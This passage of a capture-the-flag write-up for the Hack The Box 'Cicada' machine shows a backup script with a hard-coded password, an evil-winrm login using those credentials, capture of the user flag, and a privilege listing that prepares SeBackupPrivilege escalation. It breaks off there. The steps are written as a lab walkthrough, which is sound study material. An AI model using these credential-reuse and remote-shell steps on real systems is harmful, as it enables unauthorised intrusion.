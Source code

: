 The `Backup_script.ps1` contents:
```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

The `emily.oscars` user credentials are hard-coded in the script.
```powershell
$username = "emily.oscars"
$password = "Q!3@Lp#M6b*7t*Vt"
```

### WinRM Access

Successfully established WinRM connection as emily.oscars:
```powershell
evil-winrm -i cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami
cicada\emily.oscars
```

We're able to get the user flag:
```powershell
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> cat user.txt
2039ac8cd90dcebb7d5f--snip--
```

## Privilege Escalation to Administrator

### SeBackupPrivilege Exploitation

Discovered emily.oscars had SeBackupPrivilege enabled:
```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
